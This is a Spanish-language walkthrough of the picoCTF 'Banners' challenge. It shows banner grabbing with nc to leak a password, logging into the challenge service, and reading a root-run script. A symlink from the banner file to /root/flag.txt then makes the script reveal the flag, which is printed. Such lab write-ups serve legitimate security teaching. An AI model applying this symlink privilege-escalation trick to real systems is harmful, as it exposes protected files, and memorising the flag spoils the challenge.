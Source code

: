 ### Descripción
Can you abuse the banner?

Additional details will be available after launching your challenge instance.
#### Una vez iniciada la instancia del desafío:
Can you abuse the banner?The server has been leaking some crucial information on `tethys.picoctf.net 51796`. Use the leaked information to get to the server.To connect to the running application use `nc tethys.picoctf.net 62968`. From the above information abuse the machine and find the flag in the /root directory.
### Solución
Iniciamos con la conexión al servidor proporcionado después de tener iniciada la instancia del reto:

```shell
jony@DESKTOP-TN1UVD2:~/Examen_1_GS/Banners$ nc tethys.picoctf.net 51796
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```

Como podemos ver, este servidor nos mostró la contraseña que vamos a usar para podernos conectar, por lo que ahora probamos con el otro servidor:

```shell
jony@DESKTOP-TN1UVD2:~/Examen_1_GS/Banners$ nc tethys.picoctf.net 62968
*************************************
**************WELCOME****************
*************************************

what is the password?
```

En este caso el servidor nos condujo a la aplicación como tal, donde se nos pide la contraseña (la cual habíamos obtenido anteriormente), donde una vez ingresada debemos responder una serie de preguntas para acceder a la consola que nos permita manipular los directorios:

```shell
what is the password?
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$
```

Sí hemos respondido correctamente a la preguntas anteriores se nos desplegará ahora el prompt indicando que ya podremos ejecutar comandos, siendo el primero **ls -al**, para poder ver los archivos y permisos que hay en el directorio actual.

```shell
player@challenge:~$ ls -al
ls -al
total 20
drwxr-xr-x 1 player player   20 Mar  9  2024 .
drwxr-xr-x 1 root   root     20 Mar  9  2024 ..
-rw-r--r-- 1 player player  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 player player 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 player player  807 Apr  4  2018 .profile
-rw-r--r-- 1 player player  114 Feb  7  2024 banner
-rw-r--r-- 1 root   root     13 Feb  7  2024 text
```

Se hacen pruebas para determinar el contenido de dos archivos, siendo estos "banner" y "text", lo anterior con el comando **cat**:

```shell
player@challenge:~$ cat banner
cat banner
*************************************
**************WELCOME****************
*************************************
player@challenge:~$ cat text
cat text
keep digging
```

Ahora procedemos a revisar el contenido en el directorio raíz, donde podemos ver dos archivos que podemos consultar: "flag.txt" y "script.py":

```shell
player@challenge:~$ ls -al /root
ls -al /root
total 16
drwxr-xr-x 1 root root    6 Mar  9  2024 .
drwxr-xr-x 1 root root   29 Apr 10 04:03 ..
-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rwx------ 1 root root   46 Mar  9  2024 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7  2024 script.py
```

Dado que por los permisos que contiene **flag.txt**, no nos es posible revisarlo, procedemos a hacer un cat al script de python:

```shell
player@challenge:~$ cat /root/script.py
cat /root/script.py
```

Obteniendo el siguiente código:

```python
import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt
```

Como en el código nos dice algo de reemplazar el banner en cierto directorio, procedemos a aplicar un comando **rm** en dicho directorio, seguido de la creación de un enlace simbólico, puesto que cuando el usuario deseé acceder al banner, en realidad lo estará haciendo a **flag.txt**:

```shell
player@challenge:~$ rm /home/player/banner
rm /home/player/banner
player@challenge:~$ ln -s /root/flag.txt /home/player/banner
ln -s /root/flag.txt /home/player/banner
```

Por lo que terminamos la conexión con el servidor para iniciar otra y ver si nuestro cambio surtió efecto:

```shell
jony@DESKTOP-TN1UVD2:~/Examen_1_GS/Banners$ nc tethys.picoctf.net 62968
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_b3ee718e}

what is the password?
```

Como podemos ver, resultó favorable, puesto que nos arrojó la bandera que da solución al reto:

```
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_b3ee718e}
```
### Notas Adicionales

### Referencias